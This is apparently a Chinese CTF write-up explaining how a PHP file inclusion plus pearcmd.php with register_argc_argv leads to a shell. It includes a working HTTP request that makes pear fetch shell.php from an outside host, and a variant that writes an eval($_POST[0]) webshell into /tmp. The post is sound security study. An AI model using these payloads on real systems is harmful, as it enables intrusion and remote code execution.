



# 前言

也是从来没有学习过这种LFI的思路。今天晚上再复现前几天的强网杯拟态的时候遇到了这个`pearcms.php`的文件包含，进行了一波学习。

# 环境

- 安装了pear（这样才能有pearcmd.php）
- 开启了`register_argc_argv`
- 存在文件包含且可以包含后缀为php的文件且没有`open_basedir`的限制。

先说说这个pear。我就说觉得这东西为什么很眼熟，原来昨天看php底层C的目录结构的时候刚看到过。这个东西的全称叫PHP Extension and Application Repository，PHP扩展与应用仓库。Pear 仓库代码是以包（package）分区，每一个 `Pear package` 都是一个独立的项目有着自己独立的开发团队、版本控制、文档和其他包的依赖关系信息。Pear package 以 phar、tar 或 zip 发布。

默认应该是安装的：

> When using PHP, the PEAR Package Manager is already installed unless one has used the `./configure` option `--without-pear`.
>
> If one uses a version of PHP that is supplied by Unix/Linux/BSD distributors it may be necessary to manually install PEAR. Users should consult the documentation for the respective distribution in this case.

但是我发现我的lamp环境里面就没有。。。。所以自己手动装了一下：

```shell
wget http://pear.php.net/go-pear.phar
php go-pear.phar
```

可能php版本的问题，我这个php8的docker环境里面的pearcmd.php的位置在`/usr/share/pear/pearcmd.php`，一般都是在`/usr/local/lib/php/pearcmd.php`


其次就是需要开启`register_argc_argv`这个东西。这个东西之前做ctfshow的PHP特性的时候遇到过一次，如果存在php.ini的话，默认是Off。如果没有php.ini则默认是On。

PHP官方提供的镜像里面也是默认没有php.ini，所以也是默认开启了这个`register_argc_argv`：




而开启了这个东西有什么用呢？开启的时候`$_SERVER[‘argv’]`就会生效。

> 1、cli模式（命令行）下
>
> 	第一个参数$_SERVER['argv'][0]是脚本名，其余的是传递给脚本的参数
>
> 2、web网页模式下
>
> 	在web页模式下必须在php.ini开启register_argc_argv配置项
> 		
> 	设置register_argc_argv = On(默认是Off)，重启服务，$_SERVER[‘argv’]才会有效果
> 		
> 	这时候的$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’]
> 		
> 	$argv,$argc在web模式下不适用


测试一下就知道：

```php
<?php
var_dump($_SERVER['argv']);
```





且argv是通过+作为分隔符：




# 分析

`pear`本身是一个sh程序：

```sh
root@a93acbe29c09:/usr/local/etc# cat /usr/bin/pear
#!/bin/sh

# first find which PHP binary to use
if test "x$PHP_PEAR_PHP_BIN" != "x"; then
  PHP="$PHP_PEAR_PHP_BIN"
else
  if test "/usr/bin/php" = '@'php_bin'@'; then
    PHP=php
  else
    PHP="/usr/bin/php"
  fi
fi

# then look for the right pear include dir
if test "x$PHP_PEAR_INSTALL_DIR" != "x"; then
  INCDIR=$PHP_PEAR_INSTALL_DIR
  INCARG="-d include_path=$PHP_PEAR_INSTALL_DIR"
else
  if test "/usr/share/pear" = '@'php_dir'@'; then
    INCDIR=`dirname $0`
    INCARG=""
  else
    INCDIR="/usr/share/pear"
    INCARG="-d include_path=/usr/share/pear"
  fi
fi

exec $PHP -C -q $INCARG -d date.timezone=UTC -d output_buffering=1 -d variables_order=EGPCS -d open_basedir="" -d safe_mode=0 -d register_argc_argv="On" -d auto_prepend_file="" -d auto_append_file="" $INCDIR/pearcmd.php "$@"

```

最后一行看到它调用了`pearcmd.php`。这里忽略一些细节，只需要知道，pearcmd.php中`$argv`就是通过`$_SERVER['argv']`来获取到的。

这样就通过包含`pearcmd.php`，利用`$_SERVER['argv']`来调用pear命令。


那么pear命令到底是干什么的呢？可能之前从来没有用过而且不太懂，但是既然我们是学PHP的，联想一下最常用的那个composer，就豁然开朗了。不都是php什么管理器嘛，composer就是查找指定的一个包，然后把它下载下来，还可以更新等等（联想到之前用composer下载thinkphp）。

那pear是不是也可以呢？如果pear也可以下载东西并且保存在本地的话，在我们已经有一个文件包含的情况下，下载一个恶意的php文件然后包含它不就可以利用了？


也确实是可以的，命令就是：

```shell
pear install -R /tmp http://xxxxxxx/shell.php
```

这样就可以把`shell.php`下载到`/tmp`目录下面（- R可以指定下载文件保存的目录）。


攻击一波：

```http
GET /?file=/usr/local/lib/php/pearcmd.php&+install+-R+/tmp+http://121.5.169.223:39777/shell.php HTTP/1.1
Host: 119.45.254.56:23343
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close


```

返回结果：

```http
HTTP/1.1 200 OK
Date: Fri, 29 Oct 2021 11:54:20 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.3.4
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 329

downloading shell.php ...
Starting to download shell.php (23 bytes)
....done: 23 bytes
Could not get contents of package "/tmp/tmp/pear/download/shell.php". Invalid tgz file.
Download of "http://121.5.169.223:39777/shell.php" succeeded, but it is not a valid package archive
Invalid or missing remote package file
install failed

```

告诉我们下载到了`/tmp/tmp/pear/download/shell.php`，再去包含它即可getshell。


## 不出网

不出网的情况下还有别的利用姿势（相对来说也是最简单的）：

```
pear -c /tmp/.feng.php -d man_dir=<?=eval($_POST[0]);?> -s
```

查一下：

```shell
root@VM-0-6-ubuntu:~/somefile# pear help options
Options:
     -v         increase verbosity level (default 1)
     -q         be quiet, decrease verbosity level
     -c file    find user configuration in `file'
     -C file    find system configuration in `file'
     -d foo=bar set user config variable `foo' to `bar'
     -D foo=bar set system config variable `foo' to `bar'
     -G         start in graphical (Gtk) mode
     -s         store user configuration
     -S         store system configuration
     -u foo     unset `foo' in the user configuration
     -h, -?     display help/usage (this message)
     -V         version information


```

所以就相当于写配置到`/tmp/.feng.php`了，内容和文件名都可控，不好的地方可能就是如果没写好的话容易G。

```shell
?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/.feng.php+-d+man_dir=<?eval($_POST[0]);?>+-s+
```

如果没有开启短标签的话，还是下载文件比较好用。但是也是很有意思的一种利用方式了。
